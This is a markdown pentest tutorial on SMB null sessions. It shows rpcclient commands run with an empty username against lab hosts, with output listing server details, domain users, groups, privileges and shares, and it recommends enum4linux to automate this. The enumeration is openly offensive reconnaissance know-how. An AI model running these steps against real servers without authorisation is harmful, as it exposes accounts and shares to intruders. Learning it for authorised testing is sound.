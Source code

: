 ```yaml
---
title: SMB null session
tags:
- smb
- rpc
---
```

While performing a pentest, if you discover a server running the [SMB protocol](http://en.wikipedia.org/wiki/Server_Message_Block "Server Message Block"){:class="flashlink" target="_blank"} 
you can test if it's vulnerable to anonymous connection (also called null session) and then glean a lot of informations with 
a [RPC](http://en.wikipedia.org/wiki/Remote_procedure_call "Remote Procedure Call"){:class="flashlink" target="_blank"} client. 
Nmap is usefull to locate that kind of service:

[![smb null session](/images/smb-null-session-1.png)](/images/smb-null-session.png)

Now you can try to interact with the remote machine with the help of [rpcclient](https://www.samba.org/samba/docs/man/manpages/rpcclient.1.html "Man rpcclient"). 
To perform a null session you have to specify an empty user and an empty password. 
If the host is not vulnerable, you will get the following error:

~~~
$ rpcclient -U "" 192.168.1.31
Enter 's password:
could not initialise lsa pipe. Error was NT_STATUS_ACCESS_DENIED
could not obtain sid for domain WORKGROUP
error: NT_STATUS_ACCESS_DENIED
~~~

But if the host is vulnerable you will immediatly get a prompt:

~~~
$ rpcclient -U "" 192.168.1.18
Enter 's password:
rpcclient $>
~~~

<!--more-->

If you connect successfully, you can use help to see the list of available commands (anyway tab works for autocompletion). 
Below some examples of the most used.

Basic server infos:

~~~
rpcclient $> srvinfo
  LUIGI          Wk Sv PrQ Unx NT SNT nintendo server
  platform_id     :  500
  os version      :  4.9
  server type     :  0x809a03
~~~

Users enumeration:

~~~
rpcclient $> enumdomusers
user:[admin] rid:[0x3ec]
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[lisa] rid:[0x3f1]
user:[mark] rid:[0x3f2]</pre>
~~~

Groups enumeration:

~~~
rpcclient $> enumalsgroups builtin
group:[Administrators] rid:[0x220]
group:[Backup Operators] rid:[0x227]
group:[Guests] rid:[0x222]
group:[Power Users] rid:[0x223]
group:[Users] rid:[0x221]
~~~

Privileges of the connected user:

~~~
rpcclient $> enumprivs
found 8 privileges

SeMachineAccountPrivilege 		0:6 (0x0:0x6)
SeTakeOwnershipPrivilege 		0:9 (0x0:0x9)
SeBackupPrivilege 		0:17 (0x0:0x11)
SeRestorePrivilege 		0:18 (0x0:0x12)
SeRemoteShutdownPrivilege 		0:24 (0x0:0x18)
SePrintOperatorPrivilege 		0:4097 (0x0:0x1001)
SeAddUsersPrivilege 		0:4098 (0x0:0x1002)
SeDiskOperatorPrivilege 		0:4099 (0x0:0x1003)
~~~

Shares enumeration:

~~~
rpcclient $> netshareenum
netname: IPC$
  remark:	IPC Service
  path:	C:\tmp
  password:
netname: Lisa Share
  remark:	Lisa Docs
  path:	C:\home\lisa\files
  password:
~~~

[enum4linux](https://code.google.com/p/phillips321/){:class="flashlink" target="_blank"} is the perfect tool to automate null session attacks. 
According to the documentation : "[...] this script is basically just a wrapper around rpcclient, net, nmblookup and smbclient [...]".
